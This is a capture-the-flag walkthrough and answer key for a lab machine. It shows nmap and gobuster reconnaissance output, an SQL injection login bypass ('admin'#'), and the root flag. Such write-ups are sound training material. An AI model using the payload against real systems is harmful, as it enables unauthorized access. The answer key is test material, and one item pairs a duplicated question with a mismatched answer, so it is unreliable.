 #### Guide on APPOINTMENT CTF Machine

Gobuster is used for brute-forcing directories on a web server.

1. What does the acronym SQL stand for?<br>
structured query language

2. What is one of the most common type of SQL vulnerabilities?<br>
sql injection

3. What is the 2021 OWASP Top 10 classification for this vulnerability?<br>
A03:2021-Injection

4. What does Nmap report as the service and version that are running on port 80 of the target?<br>
Apache httpd 2.4.38 ((Debian))

	```bash
	nmap -p 80 -sV 10.129.79.112
	Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 11:47 PST
	Nmap scan report for 10.129.79.112
	Host is up (0.24s latency).

	PORT   STATE SERVICE VERSION
	80/tcp open  http    Apache httpd 2.4.38 ((Debian))
	```
	
5. What is the standard port used for the HTTPS protocol?<br>
443
	- the standard port for http is 80 while in https it is 443	
	
6. What is a folder called in web-application terminology?<br>
directory

7. What is a folder called in web-application terminology?<br>
404

8. Gobuster is one tool used to brute force directories on a webserver. What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?<br>
dir

	```bash
	gobuster dir -u http://10.129.15.211/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
	===============================================================
	Gobuster v3.6
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     http://10.129.15.211/
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.6
	[+] Timeout:                 10s
	===============================================================
	Starting gobuster in directory enumeration mode
	===============================================================
	/images               (Status: 301) [Size: 315] [--> http://10.129.15.211/images/]
	/css                  (Status: 301) [Size: 312] [--> http://10.129.15.211/css/]
	/js                   (Status: 301) [Size: 311] [--> http://10.129.15.211/js/]
	/vendor               (Status: 301) [Size: 315] [--> http://10.129.15.211/vendor/]
	/fonts                (Status: 301) [Size: 314] [--> http://10.129.15.211/fonts/]
	Progress: 16826 / 87665 (19.19%)
	```

9. What single character can be used to comment out the rest of a line in MySQL?<br>
#

10. If user input is not handled carefully, it could be interpreted as a comment. Use a comment to login as admin without knowing the password. What is the first word on the webpage returned?<br>
congratulations

	- go to the login page of the website and do an sql injection
	user: admin'#
	pass: any password
	
	- this will comment out the password and only login using the user
	
11. Submit root flag<br>
e3d0796d002a446c0e622226f42e9672




	
	
	
